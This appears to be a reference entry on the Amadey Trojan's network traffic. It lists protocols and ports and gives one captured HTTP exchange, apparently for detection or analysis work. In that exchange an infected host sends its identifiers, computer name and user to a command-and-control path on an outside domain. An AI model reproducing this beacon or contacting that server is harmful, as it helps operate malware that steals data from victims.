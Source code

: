 # Amadey Trojan

# Protocols:
HTTP
DNS

# Ports:
80
53

# Sample:

```
POST /ppk/index.php HTTP/1.1
Host: gohaiendo.com
Accept: */*
Content-Type: application/x-www-form-urlencoded
Content-Length: 68

id=6289217249&vs=1.22&ar=1&bi=0&lv=0&os=9&av=0&pc=USER-PC&un=SYSTEM&

HTTP/1.1 200 OK
Server: nginx
Date: Wed, 24 Apr 2019 15:34:16 GMT
Content-Type: text/html; charset=UTF-8
Content-Length: 6
Connection: close

<c><d>
```
